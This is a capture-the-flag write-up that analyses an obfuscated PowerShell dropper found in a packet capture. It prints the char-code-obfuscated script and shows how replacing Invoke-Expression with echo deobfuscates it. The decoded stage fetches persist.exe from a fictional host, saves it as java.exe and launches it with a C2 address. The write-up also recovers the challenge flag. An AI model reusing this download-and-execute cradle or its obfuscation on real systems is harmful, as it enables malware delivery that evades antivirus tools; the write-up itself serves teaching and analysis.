




# ShellPower

We are given a `capture.pcap` file to analyze!
If we filter for `http` traffic we find a single `GET` request that downloads an `init.ps1` powershell script:



Let's analyze it:

```powershell
('.( rH3ShElLID[1]+rH3sheLLID[13'+']+ghYxghY) (-JoIN ( (36,117 , 114 ,108, 32,61 ,32 , 34 , 104 ,116 ,116,112 ,58 , 47,47 , 99 , 121,98 ,101,114 , 46 ,1'+'09 ,111 , 117, 46, 102,108, 111, 110 ,46, 115 ,58 , 56 , 48 ,48,48 ,47, 112 ,101 , 114, 115, 105, 115 , 116 ,46 , 101 , 120, 101,34, 13 , 10,36 ,84, 32 , 61 , 32 , 91 ,83 '+',121, 115,116, 101 ,109, 46 ,73, 79, '+'46'+',80,97, 116 , 104 , 93,58 ,58, '+'71 , '+'101, 116 , 84'+',1'+'01 ,109,11'+'2 , 80, 97, 116 ,104, 40 ,41 ,13, 10, 36 , 111, 117,1'+'16 ,'+' 112, 97, 116 ,104, 32,61,32 , 34 , 36 , 84 ,47 ,106, 97 ,118,97 , 46,101 ,120, 101,34 ,13,10,73, 110 , 11'+'8'+' , 111, 107 , 101 , 45 , 87 ,1'+'01, 98,82 ,101,113, 117 ,101,115 ,116, 32 ,45 , 85 ,114, 105 , 32 , 36 , 117 , 114,108 , 3'+'2 ,'+'45, 79,117,116,70 ,105, 108,101'+' ,32,36, 111 ,117 , 116,112 , 97,116,104 ,13 ,10 , 13,10 ,36,119 , 101,105,114, 100,49 , 32,61,32 , 34,71 , 84,66, 81,123,98 ,52 ,98,121 , 95 ,115 , 116 , 51 ,34 ,13, 10,13 , 10 , 36, 119 , 101, 105 , 114 , 100, 5'+'0 , '+'32 ,61, 32 ,91 , 98 ,121,116,101,91 , 93, 93 ,40 ,48, 120,55 ,50 ,44, 48 , 120, 55 ,50 ,44 , 48,120 ,55, 50 , 44, 48, 120,55 , 50, 4'+'4 '+',48,120,55 ,50, 44 , 48, 120, 55 , 50,44 ,48 , 120 , 51, 51, 44,'+' 48, 120, 51'+', 51 , 44 , 48 , 120, 55,55 , 44 ,48,120 , 51'+',48 ,44, 48 , 120 ,55 ,48 , 44, 48, 120 , 53 , 102 , 44 ,48 ,120 , 54,101 , 44 , 48,120 ,51,49,44 , 48 , 120,53 ,102,44, 48 ,120 , 55,51,44 , 48 ,120,55,48 , 41, 59 ,13 , 10, 91 , 97 , 114 ,114, 97 , 121 ,93'+',58 ,58'+' , 82, 101 ,118 ,101,114, 115 , 101 ,40,36 ,119 '+',101 , 105, 114,100,50 , 41,13, 10, 13, 10 ,36 ,119 , 101, 105 , 1'+'14 ,100 , 50 , 32 ,61, 32 , 91, 83 , 121 , 115,116, 101 ,109 ,46,84 ,101, 120 , 116 ,46 , 69,'+' 110, 99 , 111 ,100,105,1'+'10,103 , 93,58 ,58'+',85 , 84 ,70 ,56,46,71 , 101,116, 8'+'3, 116 , 114, 105 , 110,10'+'3 , 40 ,36 , 119,101,105 ,114,100'+' '+',5'+'0,41 ,13, 10, 13 ,10 , 36,119 ,101 , 105 , '+'114, 100 , 51 , 32,61, 32,91, 83 ,121 , 115,116,101, 109,46, 84 , 101,120 , 116,46, 69,110,99, 111,100 , '+'105 ,110 , 103 ,93,58,58 , 85,84 ,70 ,56 ,46 , 71,1'+'01,11'+'6,83 , 116 , 1'+'14, 1'+'05,110 ,103,40 , 91 , 83,121 , 115, 116,101 ,109, 46 ,67,111,110 , 118 ,101,114, 116, 93 , 58,'+' 58 ,70,114 , 111,109,66 , 97, 115 '+',101, 54 ,52 ,83 , 116, 114 ,105,110 ,103,40 , 34 , 76 ,86, 78, 111 ,77 ,50,120 , 115 , 88 ,5'+'0 , 82 ,108,77 , 71,74, 109, 100, 88 , 78 , 106 ,78 , 72,81 ,120,77,71, 52 , 104,102, 81 ,61, 61,34 ,41, 41 ,13, 10,13 '+',10, 36, 97 '+',114, 103 , 11'+'5, 32, 61, '+'32, 64, 40, 34,45, 80, 101 ,'+' 114, 115,105, 115 ,116, 32, 84'+' ,114 ,117, 101 ,32,45 , 99,110, 99,32, 99,50,46,99 , 121,98,1'+'01 ,114,46 ,109 , 111, 117 , 46 ,102, 108 ,111 , 110 ,46 , 115,47 ,105 ,110 , 105, 116, 34 , 41,13 , 10 ,83 , 116 ,97 ,114,116,45, 80, 114 , 111 , 9'+'9 ,101, 115 , 115 , 32 ,45, 70, 105 ,108 ,101,'+'112,97,1'+'16,104 ,32 ,36,111,117,116 , 112 , 97,116 , 104, 32,45 ,65, 114,103 ,117, 109,101 ,110,116 ,7'+'6, 105 ,115 , 116,32 , 36 ,97, 114 , 103,115 , 13 ,10 )sqSfOr'+'eaCh-OBjecT {( [CHaR] [int] rH3_)} )) ').RepLace(([CHAr]114+[CHAr]72+[CHAr]51),[strINg][CHAr]36).RepLace(([CHAr]103+[CHAr]104+[CHAr]89),[strINg][CHAr]39).RepLace(([CHAr]115+[CHAr]113+[CHAr]83),'|')| .( $sHelLid[1]+$sHElLID[13]+'x')
```

It's clearly obfuscated in an attempt to evade antivirus and other analysis tools. Instead of diving into `powershell` syntax, let's see if we can simplify our approach.

For starters we can see that the code is separated into 2 parts at the `|` symbol. The `pipe` (`|`) symbol serves as a redirector of `stdout -> stdin`. That means the part after the `pipe` will do "something" with the input provided. At this point we can deduce that the 1st part is the malware being decoded and then passed into "something" to be executed.

What is that "something"? Well, let's find out! We can easily run `powershell` and run the 2nd part of the `pipe`:



`Invoke-Expression` hmm... After searching around, this is the expanded version of the `iex` command:



From the [iex docs](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.4):

```txt
The Invoke-Expression cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. 
Without Invoke-Expression, a string submitted at the command line is returned (echoed) unchanged.
```

So the input is just a string (powershell code) that gets, executed. To get the deobfuscated string without doing much work, we can simply change the 2nd part of the `pipe` from `iex` to `echo`:

```powershell
.( $ShElLID[1]+$sheLLID[13]+'x') (-JoIN ( (36,117 , 114 ,108, 32,61 ,32 , 34 , 104 ,116 ,116,112 ,58 , 47,47 , 99 , 121,98 ,101,114 , 46 ,109 ,111 , 117, 46, 102,108, 111, 110 ,46, 115 ,58 , 56 , 48 ,48,48 ,47, 112 ,101 , 114, 115, 105, 115 , 116 ,46 , 101 , 120, 101,34, 13 , 10,36 ,84, 32 , 61 , 32 , 91 ,83 ,121, 115,116, 101 ,109, 46 ,73, 79, 46,80,97, 116 , 104 , 93,58 ,58, 71 , 101, 116 , 84,101 ,109,112 , 80, 97, 116 ,104, 40 ,41 ,13, 10, 36 , 111, 117,116 , 112, 97, 116 ,104, 32,61,32 , 34 , 36 , 84 ,47 ,106, 97 ,118,97 , 46,101 ,120, 101,34 ,13,10,73, 110 , 118 , 111, 107 , 101 , 45 , 87 ,101, 98,82 ,101,113, 117 ,101,115 ,116, 32 ,45 , 85 ,114, 105 , 32 , 36 , 117 , 114,108 , 32 ,45, 79,117,116,70 ,105, 108,101 ,32,36, 111 ,117 , 116,112 , 97,116,104 ,13 ,10 , 13,10 ,36,119 , 101,105,114, 100,49 , 32,61,32 , 34,71 , 84,66, 81,123,98 ,52 ,98,121 , 95 ,115 , 116 , 51 ,34 ,13, 10,13 , 10 , 36, 119 , 101, 105 , 114 , 100, 50 , 32 ,61, 32 ,91 , 98 ,121,116,101,91 , 93, 93 ,40 ,48, 120,55 ,50 ,44, 48 , 120, 55 ,50 ,44 , 48,120 ,55, 50 , 44, 48, 120,55 , 50, 44 ,48,120,55 ,50, 44 , 48, 120, 55 , 50,44 ,48 , 120 , 51, 51, 44, 48, 120, 51, 51 , 44 , 48 , 120, 55,55 , 44 ,48,120 , 51,48 ,44, 48 , 120 ,55 ,48 , 44, 48, 120 , 53 , 102 , 44 ,48 ,120 , 54,101 , 44 , 48,120 ,51,49,44 , 48 , 120,53 ,102,44, 48 ,120 , 55,51,44 , 48 ,120,55,48 , 41, 59 ,13 , 10, 91 , 97 , 114 ,114, 97 , 121 ,93,58 ,58 , 82, 101 ,118 ,101,114, 115 , 101 ,40,36 ,119 ,101 , 105, 114,100,50 , 41,13, 10, 13, 10 ,36 ,119 , 101, 105 , 114 ,100 , 50 , 32 ,61, 32 , 91, 83 , 121 , 115,116, 101 ,109 ,46,84 ,101, 120 ,116 ,46 , 69, 110, 99 , 111 ,100,105,110,103 , 93,58 ,58,85 , 84 ,70 ,56,46,71 , 101,116, 83, 116 , 114, 105 , 110,103 , 40 ,36 , 119,101,105 ,114,100 ,50,41 ,13, 10, 13 ,10 , 36,119 ,101 , 105 , 114,100 , 51 , 32,61, 32,91, 83 ,121 , 115,116,101, 109,46, 84 , 101,120 , 116,46, 69,110,99, 111,100 , 105 ,110 , 103 ,93,58,58 , 85,84 ,70 ,56 ,46 , 71,101,116,83 , 116 , 114, 105,110 ,103,40 , 91 , 83,121 , 115, 116,101 ,109, 46 ,67,111,110 , 118 ,101,114, 116, 93 , 58, 58 ,70,114 , 111,109,66 , 97, 115 ,101, 54 ,52 ,83 , 116, 114 ,105,110 ,103,40 , 34 , 76 ,86, 78, 111 ,77 ,50,120 , 115 , 88 ,50 , 82 ,108,77 , 71,74, 109, 100, 88 , 78 , 106 ,78 , 72,81 ,120,77,71, 52 , 104,102, 81 ,61, 61,34 ,41, 41 ,13, 10,13 ,10, 36, 97 ,114, 103 , 115, 32, 61, 32, 64, 40, 34,45, 80, 101 , 114, 115,105, 115 ,116, 32, 84 ,114 ,117, 101 ,32,45 , 99,110, 99,32, 99,50,46,99 , 121,98,101 ,114,46 ,109 , 111, 117 , 46 ,102, 108 ,111 , 110 ,46 , 115,47 ,105 ,110 , 105, 116, 34 , 41,13 , 10 ,83 , 116 ,97 ,114,116,45, 80, 114 , 111 , 99 ,101, 115 , 115 , 32 ,45, 70, 105 ,108 ,101,112,97,116,104 ,32 ,36,111,117,116 , 112 , 97,116 , 104, 32,45 ,65, 114,103 ,117, 109,101 ,110,116 ,76, 105 ,115 , 116,32 , 36 ,97, 114 , 103,115 , 13 ,10 )|fOreaCh-OBjecT {( [CHaR] [int] $_)} ))
```

More obfuscation... But looking at this code now, we can see that it too is separated into two parenthesis groups! The first one concatenates 3 characters to create the string... You guessed it! `iex`!

Similarly, we can change that to `echo` and view the next part of the script!

```powershell
$url = "http://cyber.mou.flon.s:8000/persist.exe"
$T = [System.IO.Path]::GetTempPath()
$outpath = "$T/java.exe"
Invoke-WebRequest -Uri $url -OutFile $outpath

$weird1 = "GTBQ{b4by_st3"

$weird2 = [byte[]](0x72,0x72,0x72,0x72,0x72,0x72,0x33,0x33,0x77,0x30,0x70,0x5f,0x6e,0x31,0x5f,0x73,0x70);
[array]::Reverse($weird2)

$weird2 = [System.Text.Encoding]::UTF8.GetString($weird2)

$weird3 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("LVNoM2xsX2RlMGJmdXNjNHQxMG4hfQ=="))

$args = @("-Persist True -cnc c2.cyber.mou.flon.s/init")
Start-Process -Filepath $outpath -ArgumentList $args
```

Now we come across a much more nice looking piece of code that we can finally analyze!

The first 4 lines, define a download directory and download an `exe`.

Then a couple of `weird` variables are being created... And finally the downloaded executable gets executed!

Taking a look at `weird1` we can see that it starts with the flag prefix!

`weird2` is a byte array that firstly gets reversed and then converted to a string and finally, `weird3` is created by decoding a `base64` string.

In a, by now, very familiar move, we can grab the values of those variables just by echoing them to `stdout` (removing the rest of the code!!):

```powershell
$weird1 = "GTBQ{b4by_st3"

$weird2 = [byte[]](0x72,0x72,0x72,0x72,0x72,0x72,0x33,0x33,0x77,0x30,0x70,0x5f,0x6e,0x31,0x5f,0x73,0x70);
[array]::Reverse($weird2)

$weird2 = [System.Text.Encoding]::UTF8.GetString($weird2)

$weird3 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("LVNoM2xsX2RlMGJmdXNjNHQxMG4hfQ=="))

echo $weird1
echo $weird2
echo $weird3
```


